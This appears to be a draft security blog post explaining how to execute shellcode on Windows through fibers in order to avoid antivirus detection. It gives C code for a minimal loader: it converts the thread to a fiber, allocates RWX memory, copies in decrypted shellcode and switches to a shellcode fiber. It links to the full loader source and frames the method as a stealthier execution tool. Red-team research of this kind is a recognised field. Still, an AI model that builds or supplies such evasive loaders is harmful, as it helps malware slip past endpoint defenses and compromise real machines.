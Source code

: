 +++
title = 'Utilizing Windows Fibers for Shellcode Execution'
date = 2025-08-08T07:07:07+01:00
draft = true
+++
# Introduction

If you're familiar with the usual shellcode execution techniques, you will know that shellcode typically needs to be run within a thread. A commonality among different methods is the usage of the *CreateThread* Windows API function, or *NtCreateThreadEx* in the case direct syscalls are utilized. The use of these APIs in combination with methods such as *VirtualProtect* and *VirtualAlloc* is a common indicator of compromise.

However, by utilizing fibers, we can achieve the same result with a lower footprint, potentially avoiding detection by Anti-Virus vendors.

## Threads vs Fibers

While a process itself can be seen as a container for a running program—containing the PID, various handles, and a given virtual memory space—threads are singular units of execution running the program's actual code. They can operate in parallel but require scheduling by the OS scheduler. Furthermore, functions to manage threads are implemented in kernel mode.

The *CreateThread* function within the Windows API serves as a wrapper for the native API function *NtCreateThreadEx*, which, when called, performs a transition into kernel mode to create a thread.

A fiber within the Windows OS can be seen as a sub-execution unit running within a thread. However, in contrast to normal threads, fibers are implemented in user mode. In addition, fibers do not rely on the OS scheduler for dispatching but instead require the application itself to manage their scheduling.

Moreover, a fiber can also serve as an execution vehicle for arbitrary shellcode. In the following section, we will utilize fibers as an alternative to threads to execute our payload.

## Shellcode execution via Fibers

As explained in [Microsoft's Windows Internals Part 1](https://empyreal96.github.io/nt-info-depot/Windows-Internals-PDFs/Windows%20System%20Internals%207e%20Part%201.pdf), scheduling a new fiber for execution can only be done from an already initialized fiber.

Therefore, our minimal shellcode loader will first convert the main program thread to a fiber using the *ConvertThreadToFiber* API function. The address of our newly created fiber will then be saved to the *pMainFiber* pointer.

```c
pMainFiber = NULL;
pMainFiber = ConvertThreadToFiber(NULL);
if (pMainFiber == NULL) {
    fail("ConvertThreadToFiber failed: %d", GetLastError());
    return -1;
}
```
After converting the main thread to a fiber, we can allocate virtual memory for our shellcode and write it into the newly allocated region.
The function used for writing memory is part of the VX-API and can be found [here](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c). You can also use memcpy, which would result in a coresponding entry in the import table.
This likely does not affect detection; however, I used this method in other projects, which is why I include it here.
```c
rbuf = VirtualAlloc(NULL, ShellSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (rbuf == NULL) { 
  fail("VirtualAlloc failed: %d", GetLastError());
  return -1;
}
VxMoveMemory(rbuf, decrypted_data, ShellSize);
```
We first initialize the *rbuf* pointer and then write the shellcode to the memory region pointed to. 

As a last step we can create a new fiber and schedule it for execution.
```c
pShellFiber = CreateFiber(0, (LPFIBER_START_ROUTINE)rbuf, NULL);
if (pShellFiber == NULL) {
  fail("CreateFiber failed: %d", GetLastError());
  return -1;
}
SwitchToFiber(pShellFiber);
```
We use the *CreateFiber* API function and save its address to the *pShellFiber* pointer. Additionally, we cast the address of the memory holding our shellcode to the type *LPFIBER_START_ROUTINE* to set the fiber entry point to our shellcode. Finally, we call the *SwitchToFiber* API to schedule the shellcode fiber for execution and switch to it.

>⚠️ However, it is important to note that this is by no means new information, and there are probably other PoCs and posts out there already, but I thought I'd share mine.

Using fibers for shellcode execution is a neat alternative to the more commonly seen thread-based approaches. By running entirely in user mode and avoiding kernel transitions for scheduling, fibers can help reduce the footprint of your payload and potentially fly under the radar of some detection mechanisms. While this technique isn’t new and won’t guarantee invisibility against all defenses, it’s definitely worth considering as part of your toolbox when looking for stealthier execution methods. If you want to experiment with fibers or build on this concept, I encourage you to dive into the official docs and existing projects linked here. You can find the complete sourcecocde [here](https://github.com/0xjrx/silk). 

Happy hacking!
